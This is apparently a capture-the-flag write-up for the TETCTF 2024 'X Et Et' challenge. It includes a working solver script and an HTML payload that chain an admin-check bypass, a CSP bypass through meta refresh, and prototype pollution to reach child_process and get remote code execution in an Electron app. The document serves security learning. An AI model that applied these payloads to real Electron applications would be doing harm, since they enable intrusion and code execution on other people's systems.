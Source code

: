 ```yaml
---
id: 6ce50311-befe-42ff-81e6-26e44a94fc64
title: X Et Et
created_time: 2024-04-30T22:46:00.000Z
last_edited_time: 2024-09-28T00:26:00.000Z
cover_image: ./imgs/pasted-image-0_YXTD005y.png
icon_emoji: ⚡
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: X Et Et
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/pasted-image-0_YXTD005y.png

---
```


# X Et Et Challenge Writeup (TETCTF 2024)

[`solver.py`](http://solver.py/)

```python
import httpx

URL = "<http://139.162.1.172>"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.Client(base_url=url)

    def login(s, username, password):
        return s.c.post("/login", data={"username":username, "password":password})

    def register(s, username, password):
        return s.c.post("/signup", data={"username":username, "password":password, "repassword": password})

    def ticket(s, title, content, file):
        return s.c.post("/ticket", files={"file": file}, data={"title": title, "content": content}).headers['location'].replace("/ticket/", "")

    def report(s, id):
        return s.c.post("/report", data={"id": id})

    def tmp(s, temp):
        return s.c.get("/tmp/"+temp)

class API(BaseAPI):
    ...

if __name__ == "__main__":
    api = API()
    creds = "admin     "
    res = api.register(creds, creds)
    res = api.login(creds, creds)
    ticket2 = api.ticket("x", "x", open("index.html", "rb"))
    ticket4 = api.ticket(f'<meta http-equiv="refresh" content="0; url=file:///tmp/{ticket2}.html">', "x", open("index.html", "rb"))
    ticket5 = api.ticket(f'<meta http-equiv="refresh" content="0; url=file:///tmp/{ticket4}.html">', f'<http://localhost/tmp/>', open("index.html", "rb"))
    res = api.report(ticket5)
    print(res.text)
    # use existing id
    res = api.tmp("aecd5409-7936-4aab-9955-347753d92284")
    print(res.text)
    print(ticket2)

```

`index.html`

```html
<html>

<body>
    <script>
        Object.defineProperty(Object.prototype, 'x', {
            set(v) {
                // use existing id
                this.module.exports._load('child_process').execSync('/flag > /tmp/aecd5409-7936-4aab-9955-347753d92284.html')
            },
        })
        const origCall = Function.prototype.call
        Function.prototype.call = function (...args) {
            if (args.length == 4){
                window.pwn = args
                // __webpack_require__
                args[3]("x")
            }
            //console.log(this, args)
            return origCall.apply(this, args)
        }
    </script>
</body>

</html>

```

There are several steps to achieve RCE:

*   The first one is to bypass the admin.

    Here, because there is a hyphen in the session name on the login route, we can work around it by adding a space at the end or prefixing the word "admin" to gain the same privileges as the admin session.

    ```python
    @app.route('/login', methods=['GET', 'POST'])
    def login():
        if request.method == 'POST':
            data = request.form
            username = data.get('username')
            password = data.get('password')

            if username and password:
                user = User.query.filter_by(username=username).first()
                print(user)
                if user and password == user.password:
                    session['username'] = username.strip()
                    # Redirect to the home page or perform other actions upon successful login
                    return redirect(url_for('home'))
            return render_template('login.html', error_message='Invalid username or password.')
        else:
            return render_template('login.html')

    ```

    Since we have become an admin, when we create new content, `[IMPORT ALERT]` will be added to every content we create.

    ```python
        if username=="admin":
            content = "[IMPORTANT ALERT]"+ content
        else:
            content = "[NOMAL ALERT]"+ content

    ```

    With that, we can trigger the code below to gain access to the window with more lenient permissions.    `challenge/app/index.html`

    ```plain text
            if(atob(envVariables.content).startsWith("[IMPORTANT ALERT]")){
            electron.send("CreateViewer",atob(window.envVariables.id));}

    ```

    Where `CreateViewer` will pop up a window with permissions in the code below:

    ```plain text
    function createNotificationWindow(id) {

      child = new BrowserWindow({
        width: 300,
        height: 200,
        webPreferences: {
          //preload: no need preload expose
          sandbox: false,
          contextIsolation: false,
          webgl: true,
          webSecurity: false,
          nodeIntegrationInSubFrames: false, // dont allow call ipc from iframe/child windows
        }
      })


      child.loadURL("<http://localhost/IsNew?id=>"+id)

    }

    ```

    The permissions `sandbox: false` and `contextIsolation: false` can be used to influence the context at the preload level, where functions like `this.module` are available. We can utilize these functions to achieve Remote Code Execution (RCE).

    For more information, you can check the Harmony challenge on HITCON CTF 2023.
    [https://github.com/maple3142/My-CTF-Challenges/tree/master/HITCON CTF 2023/Harmony#rce-using-client-side-prototype-pollution](https://github.com/maple3142/My-CTF-Challenges/tree/master/HITCON%20CTF%202023/Harmony#rce-using-client-side-prototype-pollution)

*   We perform sandbox bypass by using the Prototype Pollution technique.

    Here, I'm polluting two constructors: the Object constructor and the Function constructor.

    ```plain text
            Object.defineProperty(Object.prototype, 'x', {
                set(v) {
                    // use existing id
                    this.module.exports._load('child_process').execSync('/flag > /tmp/aecd5409-7936-4aab-9955-347753d92284.html')
                },
            })
            const origCall = Function.prototype.call
            Function.prototype.call = function (...args) {
                if (args.length == 4){
                    // __webpack_require__
                    args[3]("x")
                }
                //console.log(this, args)
                return origCall.apply(this, args)
            }

    ```

    Where I use the Function prototype to perform hooking on every call. By doing this hooking, there is an opportunity to obtain an object from another context, where the `__webpack_require__` function may be present.

    After that, we prototype the Object. So when an object accesses the array key `x`, it will trigger the hooking we set up in the `defineProperty` within our prototype pollution.

    As a result, when we call `x` with the `__webpack_require__` function, it will be triggered, allowing us to leak the `this.module` function.

*   Bypassing CSP using the meta refresh tag.

    Since there is strict CSP when the popup is opened, we cannot execute JavaScript directly. Therefore, we need to bypass it. Here, we can bypass it by adding a ticket with the title `<meta http-equiv="refresh" content="0; url=file:///tmp/{ticket}.html">` to redirect to the file we uploaded on the ticket form page. With this, we can execute JavaScript without being hindered by CSP.

Those are the steps required to work on this challenge. For the rest, you can refer to the solve script above to see the execution flow.

## After The CTF

After the CTF ended, the author shared their solve script, and I discovered that you can simply import the module using `__webpack_require__` to achieve Remote Code Execution (RCE):

```html
<script>
const orgCall = Function.prototype.call;
Function.prototype.call = function(...args){
    if(args[3] && args[3].name == "__webpack_require__"){
        const __webpack_require__ = args[3];
        var cc = __webpack_require__('module')._load('child_process').exec('"""+rce+"""');

    }
    return orgCall.apply(this,args);
}</script>

```
